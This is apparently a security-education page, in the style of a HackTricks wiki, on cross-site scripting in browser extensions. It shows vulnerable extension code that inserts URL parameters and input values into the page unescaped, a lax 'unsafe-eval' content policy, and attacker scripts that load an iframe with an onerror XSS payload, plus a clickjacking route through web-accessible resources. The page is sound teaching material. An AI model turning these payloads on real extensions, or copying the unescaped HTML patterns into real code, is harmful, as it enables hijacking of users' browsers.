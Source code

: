 # BrowExt - XSS Example

{#include ../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}

## Cross-Site Scripting (XSS) through Iframe

In this setup, a **content script** is implemented to instantiate an Iframe, incorporating a URL with query parameters as the source of the Iframe:

```javascript
chrome.storage.local.get("message", (result) => {
  let constructedURL =
    chrome.runtime.getURL("message.html") +
    "?content=" +
    encodeURIComponent(result.message) +
    "&redirect=https://example.net/details"
  frame.src = constructedURL
})
```

A publicly accessible HTML page, **`message.html`**, is designed to dynamically add content to the document body based on the parameters in the URL:

```javascript
$(document).ready(() => {
  let urlParams = new URLSearchParams(window.location.search)
  let userContent = urlParams.get("content")
  $(document.body).html(
    `${userContent} <button id='detailBtn'>Details</button>`
  )
  $("#detailBtn").on("click", () => {
    let destinationURL = urlParams.get("redirect")
    chrome.tabs.create({ url: destinationURL })
  })
})
```

A malicious script is executed on an adversary's page, modifying the `content` parameter of the Iframe's source to introduce a **XSS payload**. This is achieved by updating the Iframe's source to include a harmful script:

```javascript
setTimeout(() => {
  let targetFrame = document.querySelector("iframe").src
  let baseURL = targetFrame.split("?")[0]
  let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>"
  let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`

  document.querySelector("iframe").src = maliciousURL
}, 1000)
```

An overly permissive Content Security Policy such as:

```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```

allows the execution of JavaScript, making the system vulnerable to XSS attacks.

An alternative approach to provoke the XSS involves creating an Iframe element and setting its source to include the harmful script as the `content` parameter:

```javascript
let newFrame = document.createElement("iframe")
newFrame.src =
  "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
  encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>")
document.body.append(newFrame)
```

## DOM-based XSS + ClickJacking

This example was taken from the [original post writeup](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

The core issue arises from a DOM-based Cross-site Scripting (XSS) vulnerability located in **`/html/bookmarks.html`**. The problematic JavaScript, part of **`bookmarks.js`**, is detailed below:

```javascript
$("#btAdd").on("click", function () {
  var bookmarkName = $("#txtName").val()
  if (
    $(".custom-button .label").filter(function () {
      return $(this).text() === bookmarkName
    }).length
  )
    return false

  var bookmarkItem = $('<div class="custom-button">')
  bookmarkItem.html('<span class="label">' + bookmarkName + "</span>")
  bookmarkItem.append('<button class="remove-btn" title="delete">x</button>')
  bookmarkItem.attr("data-title", bookmarkName)
  bookmarkItem.data("timestamp", new Date().getTime())
  $("section.bookmark-container .existing-items").append(bookmarkItem)
  persistData()
})
```

This snippet fetches the **value** from the **`txtName`** input field and uses **string concatenation to generate HTML**, which is then appended to the DOM using jQuery’s `.append()` function.

Typically, the Chrome extension's Content Security Policy (CSP) would prevent such vulnerabilities. However, due to **CSP relaxation with ‘unsafe-eval’** and the use of jQuery’s DOM manipulation methods (which employ [`globalEval()`](https://api.jquery.com/jquery.globaleval/) to pass scripts to [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) upon DOM insertion), exploitation is still possible.

While this vulnerability is significant, its exploitation is usually contingent on user interaction: visiting the page, entering an XSS payload, and activating the “Add” button.

To enhance this vulnerability, a secondary **clickjacking** vulnerability is exploited. The Chrome extension's manifest showcases an extensive `web_accessible_resources` policy:

```json
"web_accessible_resources": [
    "html/bookmarks.html",
    "dist/*",
    "assets/*",
    "font/*",
    [...]
],
```

Notably, the **`/html/bookmarks.html`** page is prone to framing, thus vulnerable to **clickjacking**. This vulnerability is leveraged to frame the page within an attacker’s site, overlaying it with DOM elements to redesign the interface deceptively. This manipulation leads victims to interact with the underlying extension unintentionally.

## References

- [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
- [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{#include ../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}


